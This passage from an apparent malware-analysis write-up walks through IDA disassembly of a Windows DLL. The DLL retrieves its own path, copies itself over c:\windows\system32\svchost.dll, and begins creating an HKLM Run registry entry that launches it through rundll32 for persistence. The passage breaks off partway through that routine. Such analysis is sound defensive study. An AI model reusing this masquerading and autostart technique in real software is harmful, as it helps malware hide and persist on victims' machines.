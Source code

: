 .text:1000A709 call    _fprintf
.text:1000A70E add     esp, 0Ch
{% endcodeblock %}

If ``GetModuleHandleEx`` was successful it will land here. [GetModuleFileName](http://msdn.microsoft.com/en-us/library/windows/desktop/ms683197%28v=vs.85%29.aspx) is called which will return the full path for the specified module in ``hModule``. In this case, the binary retrieves its own path (line 9) and saves it in ``[ebp+Filename]``. In line 10, return value of ``sub_1000A570`` is compared with 2.

{% codeblock lang:nasm Getting Dll path %}

.text:1000A711
.text:1000A711 loc_1000A711:
.text:1000A711 push    100h            ; nSize
.text:1000A716 lea     eax, [ebp+Filename]
.text:1000A71C push    eax             ; lpFilename
.text:1000A71D mov     ecx, [ebp+phModule]
.text:1000A723 push    ecx             ; hModule
.text:1000A724 call    ds:GetModuleFileNameA
.text:1000A72A cmp     [ebp+var_110], 2           ; comparing return value of sub_1000A570 with 2
.text:1000A731 jnz     short loc_1000A772         ; if return value is not 2, then jump to loc_1000A772
{% endcodeblock %}

If registry key did not exist, we will continue.

{% codeblock lang:nasm CopyFile %}

.text:1000A733 mov     [ebp+lpNewFileName], offset aCWindowsSystem ; "c:\\windows\\system32\\svchost.dll"
.text:1000A73D mov     [ebp+var_124], offset aCWindowsSyst_0 ; "c:\windows\system32\rundll32.exe c:\windows\system32\svchost.dll"
.text:1000A747 push    0               ; bFailIfExists - 0 means overwrite if file already exists
.text:1000A749 mov     edx, [ebp+lpNewFileName]
.text:1000A74F push    edx             ; lpNewFileName ; "c:\\windows\\system32\\svchost.dll"
.text:1000A750 lea     eax, [ebp+Filename]
.text:1000A756 push    eax             ; lpExistingFileName - Dll name from GetModuleFileName
.text:1000A757 call    ds:CopyFileA
.text:1000A75D mov     ecx, [ebp+var_124]   ; From line 2
.text:1000A763 push    ecx
.text:1000A764 call    sub_1000A610
.text:1000A769 add     esp, 4
.text:1000A76C mov     [ebp+var_114], eax

{% endcodeblock %}

We have already seen the strings being loaded in lines 1 and 2. Then ``CopyFile`` is called to copy itself to ``c:\\windows\\system32\\svchost.dll``.

{% codeblock lang:nasm sub_1000A610 %}

.text:1000A610 push    ebp
.text:1000A611 mov     ebp, esp
.text:1000A613 sub     esp, 0Ch
.text:1000A616 lea     eax, [ebp+phkResult]
.text:1000A619 push    eax             ; phkResult
.text:1000A61A push    offset aSoftwareMicr_0 ; "SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
.text:1000A61F push    80000002h       ; hKey   "HKEY_LOCAL_MACHINE"
.text:1000A624 call    ds:RegCreateKeyA
.text:1000A62A mov     [ebp+var_C], eax
.text:1000A62D cmp     [ebp+var_C], 0
.text:1000A631 jnz     short loc_1000A663
